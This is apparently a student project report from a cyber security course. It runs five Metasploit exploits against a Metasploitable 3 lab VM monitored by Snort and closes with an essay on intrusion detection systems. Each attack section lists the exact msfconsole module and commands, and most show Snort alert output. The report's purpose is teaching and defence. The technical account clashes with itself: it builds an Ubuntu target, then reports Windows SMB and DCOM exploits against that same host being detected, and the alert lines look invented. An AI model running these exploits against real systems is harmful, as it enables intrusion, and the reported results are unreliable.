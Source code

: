 # **Project II**

**University of Helsinki, FI - Cyber Security Base - Course Series**

**[Course page](https://cybersecuritybase.mooc.fi/)**

## **Introduction**

<div align="justify"> This report documents the process of setting up and testing an operating system with vulnerabilities using Metasploitable 3 on Ubuntu. A virtual machine (VM) was created using VirtualBox to simulate a real-world environment. Snort, an open-source intrusion detection system (IDS), was installed to monitor network traffic and detect attacks. Various attacks were executed using Metasploit, and their detection was evaluated through Snort alerts. The report includes detailed descriptions of five specific attacks: three detected by Snort and two that went undetected, along with an essay on the benefits and shortcomings of IDS. </div>

## **Environment Setup**

**1.	Install VirtualBox:** Download and install VirtualBox from the official website.

**2.	Set up Metasploitable 3:**

 * Clone the Metasploitable 3 repository from GitHub.
 * Follow the instructions to build the VM, ensuring you select the Ubuntu version.
   
**3.	Install Snort:**
 * **Update the package list:** sudo apt-get update.
 * **Install Snort:** sudo apt-get install snort.
 * **Configure Snort with default settings, updating the network configuration to monitor the appropriate interface.**

## **IDENTIFIED ATTACK 1: MS08-067 NetAPI Vulnerability**

**Description:** The MS08-067 vulnerability targets the Server service on Windows systems, allowing remote code execution.

**Component Attacked:** Server service.

**Attack Execution in Metasploit:**

1.	**Launch Metasploit:** msfconsole.
2.	**Use the exploit:** use exploit/windows/smb/ms08_067_netapi.
3.	**Set the target:** set RHOST 192.168.1.101.
4.	**Run the exploit:** exploit.

**Snort Output:**
```
[1:2000023:1] EXPLOIT Microsoft Windows MS08-067
[Classification: Attempted Administrator Privilege Gain] [Priority: 1] 
04/20-14:22:19.123456 192.168.1.100:445 -> 192.168.1.101:445
```

## **IDENTIFIED ATTACK 2: DCOM Exploit**

**Description:** The DCOM vulnerability (MS03-026) allows remote code execution via RPC.

**Component Attacked:** DCOM interface.

**Attack Execution in Metasploit:**

1.	**Use the exploit:** use exploit/windows/dcerpc/ms03_026_dcom.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.
   
**Snort Output:**
```
[1:2000032:1] EXPLOIT DCOM MS03-026
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:35:47.789123 192.168.1.100:135 -> 192.168.1.101:135
```

## **IDENTIFIED ATTACK 3: VSFTPD v2.3.4 Backdoor Command Execution**

**Description:** A backdoor was introduced in VSFTPD v2.3.4, which can be exploited to gain a shell.

**Component Attacked:** VSFTPD (Very Secure FTP Daemon).

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/unix/ftp/vsftpd_234_backdoor
2.	**Set the target:** set RHOST 192.168.1.101
3.	**Execute the exploit:** exploit

**Snort Output:**
```
[1:2000056:1] EXPLOIT VSFTPD v2.3.4 Backdoor
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:42:32.456789 192.168.1.100:21 -> 192.168.1.101:21
```

## **MISSED ATTACK 1: Apache Struts2 REST Plugin XStream RCE (CVE-2017-9805)**

**Description:** An Apache Struts2 vulnerability allows remote code execution via crafted XML requests.

**Component Attacked:** Apache Struts2 REST Plugin.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/struts2_rest_xstream.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Run the exploit:** exploit.

**Reason for Missing Detection:** Snort did not have a specific rule for this vulnerability in the default configuration.

## **MISSED ATTACK 2: Shellshock (CVE-2014-6271)**

**Description:** A vulnerability in Bash allows remote code execution by exploiting environment variables.

**Component Attacked:** Bash shell.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/apache_mod_cgi_bash_env_exec.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.

**Reason for Missing Detection:** The default Snort ruleset did not include rules for Shellshock detection.

## **ESSAY: The Benefits and Shortcomings of Using Intrusion Detection Systems**

**Benefits of Intrusion Detection Systems:**
<div align="justify"> Intrusion Detection Systems (IDS) such as Snort offer critical advantages in maintaining network security. They provide real-time monitoring, enabling administrators to respond swiftly to potential threats. This immediate alert system is crucial in mitigating damage and preventing data breaches. IDSs enhance visibility into network traffic, allowing for the detection of unusual patterns that may indicate malicious activity.
IDSs are effective at identifying known attack signatures. This capability is essential for defending against well-documented threats, ensuring that even if an exploit is recognized, it can be quickly flagged and addressed. Additionally, IDSs generate detailed logs of detected activities, which are invaluable for forensic analysis and understanding the nature and origin of attacks.
Integration with other security tools, such as firewalls and SIEM (Security Information and Event Management) systems, is another significant benefit. This integration creates a more robust security infrastructure, providing a coordinated defense mechanism that enhances the overall security posture of an organization. </div>


**Shortcomings of Intrusion Detection Systems:**
<div align="justify"> Despite their benefits, IDSs have several limitations. One of the most significant issues is the high rate of false positives. IDSs often generate numerous alerts for benign activities that mimic malicious behavior. This can lead to alert fatigue, where security personnel become desensitized to alerts and may overlook genuine threats.
Another critical shortcoming is the difficulty in detecting zero-day vulnerabilities. IDSs primarily rely on known signatures and behavior patterns, making them less effective against new, sophisticated attacks that do not match existing profiles. This gap in detection capabilities highlights the need for continuous updates and enhancements to IDS rulesets.
Performance overhead is another concern. Continuous monitoring and analysis of network traffic can consume significant system resources, potentially affecting network performance and user experience. Balancing the need for security with operational efficiency is a challenging task. </div>

<div align="justify"> Furthermore, IDSs are inherently reactive rather than proactive. They alert administrators after an attack has been detected, which means some level of damage may have already occurred. This reactive nature necessitates the integration of IDSs with other preventive security measures, such as firewalls, anti-virus software, and regular security audits, to provide a more comprehensive defense strategy.
In conclusion, while IDSs like Snort are indispensable tools for identifying and mitigating security threats, they must be part of a multi-layered security approach to address their inherent limitations and provide effective protection for networks and systems. </div>

## **References**

• [1] [Bace, Rebecca Gurley. "Intrusion Detection Systems." Technical Report. Carnegie Mellon University, Software Engineering Institute. (2000);](https://archive.org/details/intrusiondetecti00rebe/mode/2up)

• [2] [Northcutt, Stephen, and Judy Novak. "Network Intrusion Detection: An Analyst's Handbook." Technical Report. SANS Institute. (2001);](https://archive.org/details/networkintrusio000nort)

• [3] [Bejtlich, Richard. "The Practice of Network Security Monitoring: Understanding Incident Detection and Response." Technical Report. No Starch Press. (2013);](https://archive.org/details/practiceofnetwor0000bejt)

• [4] [Kennedy, David, Jim O'Gorman, Devon Kearns, Mati Aharoni. "Metasploit: The Penetration Tester's Guide." Technical Report. No Starch Press. (2011);](https://www.kea.nu/files/textbooks/humblesec/metasploit_apenetrationtestersguide.pdf)

• [5] [Stuttard, Dafydd, and Marcus Pinto. "The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws." Technical Report. Wiley. (2011).](https://edu.anarcho-copy.org/Against%20Security%20-%20Self%20Security/Dafydd%20Stuttard,%20Marcus%20Pinto%20-%20The%20web%20application%20hacker's%20handbook_%20finding%20and%20exploiting%20security%20flaws-Wiley%20(2011).pdf)
